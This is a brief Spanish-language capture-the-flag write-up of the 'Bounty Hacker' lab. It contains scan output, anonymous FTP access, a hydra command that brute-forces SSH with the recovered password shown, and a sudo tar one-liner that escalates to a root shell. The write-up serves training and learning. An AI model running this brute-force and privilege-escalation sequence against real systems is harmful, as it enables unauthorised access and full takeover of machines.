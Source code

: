 # Bounty Hacker
Esta guay pero por el nombre me esperaba otro tipo de cosa, en plan algo mas rollo bug bounty idk

## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```
## Enum
### FTP
Tenemos login Anonymous habilitado, asi que accedemos como Anonymous y vemos los dos archivos presentes
```
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```
Nos traemos los dos a local y vemos que locks es algo que parece una lista de contraseñas, el otro parece parte del lore de la room, aunque nos deja un usuario, lin

```
hydra -l lin -P locks.txt ssh://10.10.239.220
[22][ssh] host: 10.10.239.220   login: lin   password: RedDr4gonSynd1cat3

```

Nos conectamos como lin y leemos la user.txt

## Privesc
```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Ejecutamos
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
Y listo
